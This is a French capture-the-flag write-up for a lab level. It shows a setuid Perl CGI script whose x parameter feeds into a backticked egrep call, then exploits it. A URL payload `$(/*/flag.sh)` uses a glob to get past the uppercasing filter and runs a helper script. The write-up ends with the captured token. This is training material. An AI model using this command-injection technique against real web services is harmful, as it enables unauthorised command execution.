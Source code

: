 ## Démarche
- Dans le home, un script perl.
  - `ls -la`
    > -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
  - `cat level12.pl`
    ```
        #!/usr/bin/env perl
        # localhost:4646
        use CGI qw{param};
        print "Content-type: text/html\n\n";

        sub t {
        $nn = $_[1];
        $xx = $_[0];
        $xx =~ tr/a-z/A-Z/;
        $xx =~ s/\s.*//;
        @output = `egrep "^$xx" /tmp/xd 2>&1`;
        foreach $line (@output) {
            ($f, $s) = split(/:/, $line);
            if($s =~ $nn) {
                return 1;
            }
        }
        return 0;
        }

        sub n {
        if($_[0] == 1) {
            print("..");
        } else {
            print(".");
        }
        }

        n(t(param("x"), param("y")));
    ```

    Les lignes `$xx =~ tr/a-z/A-Z/;` et `$xx =~ s/\s.*//;` sont des expressions régulières. L'opérateur `tr/` indique une translittération et `s/` une substitution.
    `$xx =~ tr/a-z/A-Z/` transforme les minuscules en majuscules et `$xx =~ s/\s.*//;` retire tous les caractères après les espaces (inclus).

- Il suffit donc de se connecter via un navigateur à `192.168.0.17:4646` et d'y saisir les paramètres qui permettront de lancer le binaire `getflag`
    - créer un script avec un nom en majuscules (pour la regexp) qui lancera getflag et sauvegardera le résultat dans un autre fichier :
        ```
            #!/usr/bin/env sh

            getflag > /tmp/flag12
        ```
    - appeler le script via les paramètres de l'url
        `http://192.168.0.17:4646/?x=$(/*/flag.sh)`

    - récupérer le flag dans le fichier :
        `cat /tmp/flag12`
        > Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

## Ressources
- [Guide Perl : expressions régulières](https://formation-perl.fr/guide-perl-08.html)
- https://regex101.com/
